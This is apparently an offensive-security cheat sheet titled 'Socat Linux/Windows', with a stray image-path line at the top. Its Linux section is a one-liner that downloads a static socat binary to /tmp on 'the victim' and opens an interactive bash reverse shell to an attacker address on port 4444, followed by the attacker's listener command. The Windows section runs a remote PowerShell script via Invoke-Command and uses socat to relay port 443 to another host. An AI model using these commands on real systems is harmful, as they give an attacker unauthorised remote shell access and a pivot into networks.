 # Socat Linux/Windows

## Linux <a id="linux"></a>

In case socat is not installed on the victim :

* Download socat :

```csharp
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

* and set up a Listener on the attacker machine :

```csharp
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

## Windows <a id="windows"></a>

* Upload socat, create session, setup powercat

```csharp
PS C:\modif> Invoke-Command -ScriptBlock{Invoke-Command -FilePath \\Server\C$\sh443.ps1 $Remote_Host} $jm
```

```csharp
[Remote-Host]: PS C:\Users\admin\Desktop\\socat-1.7.3.2-1-i686> .\socat.exe -d -d TCP-LISTEN:443 TCP:192.168.50.96:443
```



